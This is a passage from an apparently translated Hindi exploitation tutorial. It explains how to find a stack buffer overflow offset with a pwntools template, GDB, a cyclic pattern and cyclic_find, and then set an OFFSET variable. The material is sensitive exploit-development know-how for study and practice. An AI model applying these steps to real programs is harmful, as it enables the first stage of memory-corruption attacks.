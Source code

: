 टेम्पलेट को एक ऑफसेट की आवश्यकता है जिसके बाद एक्सप्लॉइट के साथ जारी रखने के लिए। यदि कोई प्रदान किया जाता है तो यह उसे खोजने के लिए आवश्यक कोड का निष्पादन करेगा (डिफ़ॉल्ट रूप से `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**क्रियान्वित** `python template.py` एक GDB कन्सोल खुलेगा जिसमें कार्यक्रम क्रैश हो जाएगा। उस **GDB कन्सोल** में `x/wx $rsp` क्रियान्वित करें ताकि RIP को ओवरराइट करने वाले **बाइट्स** प्राप्त हों। अंततः एक **python** कन्सोल का उपयोग करके **ऑफसेट** प्राप्त करें:
```python
from pwn import *
cyclic_find(0x6161616b)
```
![](<../../../../.gitbook/assets/image (1004).png>)

ऑफसेट (इस मामले में 40) पाने के बाद, उस मान का उपयोग करके टेम्पलेट के अंदर OFFSET वेरिएबल को बदलें।\
`OFFSET = "A" * 40`
